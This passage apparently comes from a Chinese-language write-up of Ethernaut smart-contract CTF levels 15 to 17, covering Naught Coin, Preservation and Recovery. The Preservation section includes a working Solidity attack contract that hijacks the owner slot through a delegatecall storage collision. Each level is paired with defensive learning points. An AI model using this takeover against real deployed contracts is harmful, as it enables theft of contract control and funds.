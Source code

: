 学习要点：
- 避免使用 extcodesize 判断调用者
extcodesize 的行为在合约构造期间容易被绕过。
- 改用更可靠的身份验证方式，比如签名验证。
- 限制调用者范围
验证调用者是否是预定义地址或经过授权的地址。
- 避免使用易预测的哈希值
不要依赖调用者地址或可预测的值作为访问条件。

## 15. Naught Coin ✅ [Medium]

没有新东西
提供两个思路：
第一种：使用ERC20的approve和transferfrom方法
第二种：利用modifier设计的缺陷，通过中间合约来调用逃过require的时间检测

## 16. Preservation ✅ [Medium]

这关主要考察对delegatecall的理解：
- delegatecall 是一种低级函数，用于在当前合约的上下文中执行另一个合约的代码。
- 攻击者可以利用 delegatecall 来执行目标合约的代码，从而获取目标合约的控制权。

攻击思路：
1. LibraryContract 的 storedTime 虽然在其定义中位于 Slot 0，但由于使用了 delegatecall，其逻辑实际上操作的是 Preservation 合约的 Slot 0，即 timeZone1Library。
2. 如果将 timeZone1Library 设置为攻击合约地址，可以通过 delegatecall 执行恶意合约逻辑，并直接修改 Slot 2（owner）。
3. 攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MaliciousLibrary {
    // 保持存储布局与 Preservation 合约一致
    address public timeZone1Library; // Slot 0
    address public timeZone2Library; // Slot 1
    address public owner;            // Slot 2

    function setTime(uint256 _time) public {
        owner = address(uint160(_time)); // 将 uint256 转为地址并赋值给 owner
    }
}
```

学习要点：
- 理解 delegatecall 的工作原理
- 存储布局一致性在使用 delegatecall 时至关重要。
- 避免外部调用未受信任的合约地址。

## 17. Recovery ✅ [Medium]

这关考察的是通过区块链上公开的数据恢复丢失的合约和资金：
在 Ethereum 中，合约地址是通过以下公式计算的：address = keccak256(rlp.encode([sender, nonce]))[12:]
sender 是创建合约的地址。nonce 是该地址的交易计数。
